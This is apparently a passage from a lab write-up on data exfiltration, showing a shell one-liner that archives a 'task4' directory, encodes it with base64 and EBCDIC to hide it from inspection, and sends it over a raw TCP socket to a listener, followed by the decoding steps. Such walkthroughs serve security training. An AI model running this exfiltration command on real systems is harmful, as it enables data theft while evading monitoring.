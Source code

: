     ![Connect to victim1 from Jumpbox](ssh-from-jb-to-victim1.png)

3. Now, we will use the **TCP Socket exfiltration** method. We will also use **data encoding**, a reversible form of data representation, and **archiving**, so it is hard for someone to examine the data during the trasmission, as it will be in a non-human readable format.

    ```shell
    tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
    ```
    
    Let's break down this command step by step:

    1. `tar zcf - task4/` This command creates a *compressed tarball* (archive) of the `task4` directory and sends the output to the standard output (indicated by `-`) using the `tar` utility. Here's what each option does:
        - `z` Compress the archive using gzip.
        - `c` Create a new archive.
        - `f` Specify the archive file.
        - `-` Send the output to stdout (standard output) instead of a file.
        - `task4/` The directory to be archived.

    2. `|` This is a *pipe operator*, which takes the output of the previous command and passes it as input to the next command.
 
    3. `base64` This command encodes the tarball using *Base64 encoding*. Base64 is a method of encoding binary data into a text-based format.

    4. `|` Another pipe operator.

    5. `dd conv=ebcdic` This command is using the `dd` utility to perform low-level data copying and conversion. The `conv=ebcdic` option is used to convert the data from *ASCII* to *EBCDIC* encoding. [*EBCDIC*](https://www.techtarget.com/whatis/definition/EBCDIC-Extended-Binary-Coded-Decimal-Interchange-Code) is another character encoding standard, primarily used in IBM mainframes.

    6. `> /dev/tcp/192.168.0.133/8080` This part of the command redirects the output to the IP address 192.168.0.133 on port 8080 using a TCP socket.

    Once we pass the above command, a connection will be received from `victim1` along with the required data in the `/tmp/` directory.

    ![Connection and data received](conn-received.png)

4. We have successfully transferred the data in a non-human readable format:

    ![Encoded data](encoded_data.png)

    We now need to decode and unarchive it:

    ```shell
    # move the /tmp/ directory
    cd /tmp/

    # decode the data
    dd conv=ascii if=task4-creds.data | base64 -d > task4-creds.tar
